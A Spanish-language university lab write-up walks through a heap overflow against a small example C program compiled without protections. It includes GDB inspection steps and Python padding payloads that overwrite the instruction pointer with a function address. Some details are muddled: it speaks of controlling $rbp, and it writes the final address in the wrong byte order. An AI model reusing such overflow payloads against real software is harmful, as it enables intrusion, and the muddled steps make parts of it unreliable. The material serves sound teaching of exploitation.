 # MUIC - DPS - Laboratorio 5 - Heap Overflow Example

En esta practica se presenta un pequeño y sencillo programa con el que lograr un exploit basado en Heap Overflow. 

Este exploit basado en malloc para Heap difiere del que podemos realizar para vulnerar la parte Stack de la pila. El Heap de un programa suele ser controlado por las librerías de C, encontrando como principales funciones malloc() y free(). El Heap está dividido en grupos de bloques libres de mismo tamaño, y en cada grupo los bloques están organizados mediante  listas doblemente unidas/ligadas. En el Heap, por temas de eficiencia, los punteros fd y bd (forward/backward) que mantienen las listas dobles ligadas son almacenados en el incio de cada bloque libre.

## Paso 1
Compilamos y corremos el programa:
```
gcc heapOverflow.c -o heapOverflow.o -w -g -no-pie -z execstack
./heapOverflow.o Hola
./heapOverflow.o XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX (+64 characters)
```
![Step1-Commands](imgs/step1_heap.png "Run commands")

## Paso 2
Mediante el uso del debugger GDB, observamos el funcionamiento de nuestro programa:
```
gdb ./heapOverflow.o
(gdb) list 25,40
(gdb) b 38
```
![Step2-Commands](imgs/step2_gdb_list.png "GDB list")

```
(gdb) run XXXX
(gdb) info proc map
```
![Step2-Commands](imgs/step2_gdb_run.png "GDB run")

Ahora, intentamos ver el estado del Heap:
```
(gdb) x/480x 0x405000   #0x405000 es la dirección base del Heap en mi caso
                        #x/480x es para ver 480 bytes en hexadecimal, no pude con vemos observar el XXXX en el Heap
``` 
![Step2-Commands](imgs/step2_gdb_XXXX.png "GDB XXXX")

XXXX -> 0x58585858 -> 0x4052a0 dirección 

![Step2-Commands](imgs/step2_gdb_disas.png "GDB disassembly")

## Paso 3
Tratamos de analizar el comportamiento del sistema cuando hacemos uso del exploit de la localización en memoria. Para ello creamos un simple programa en python:
```python
#!/usr/bin/python
print("X"*90)
```

Procedemos a dar permisos de ejecución y corremos el programa en C pasandole como argumento el script creado:
```
chmod a+x python1.py
./heapOverflow.o $(./python1py)
```

![Step3-Commands](imgs/step3_python.png "Python script")

## Paso 4
Comprobamos el estado del registro $rip (instruction pointer).Primero, creamos un nuevo exploit, para cargar menos caracteres (80 en total):
```python
#!/usr/bin/python
print("X"*70 + "YAYBYCYDYEYFYG")
```
Procedemos a dar permisos de ejecución como anteriormente hicimos y debugeamos el programa:
```
gdb -q ./heapOverflow.o    #-q para que no muestre el banner de bienvenida
(gdb) run $(./python2.py)      #Corremos el programa con el exploit
(gdb) info registers    #Mostramos los registros
(gdb) q                 #Salimos del debugger
(gdb) y                 #Para confirmar la salida de gdb
```
Observamos el valor de rip: GYFY -> 0x47594659
![Step4-Commands](imgs/step4_gdb_python2.png "GDB registers")

No obstante, este enfoque acabaría por pisar la memoria, por lo que no podremos ver el registro. POr eso es mejor realizar lo siguiente:
```python
#!/usr/bin/python
print("X"*80 + "CDEF")
```

Procedemos como anteriormente y observamos el valor de rip: CDEF -> 0x46454443

![Step4-Commands](imgs/step4_gdb_python3.png "GDB registers")

Disassembling de la función f_entrar():

![Step4-Commands](imgs/step4_gdb_dissas_2.png "GDB disassembly")

## Paso 5
De la foto anterior, podemos observamos que el registro $rbp (base pointer) apunta a la dirección 0x00401156. Por lo tanto, podemos realizar un exploit que nos permita modificar el valor de $rbp y así poder controlar el flujo de ejecución del programa. Para ello, creamos un nuevo exploit:
```python
#!/usr/bin/python
print("X"*80 + "\x00\x40\x11\x56")
```

Y lo ejecutamos:
```
./heapOverflow.o $(./python4.py)
```

Finalmente obtenemos lo siguiente:

![Step5-Commands](imgs/step5_final.png "Final result")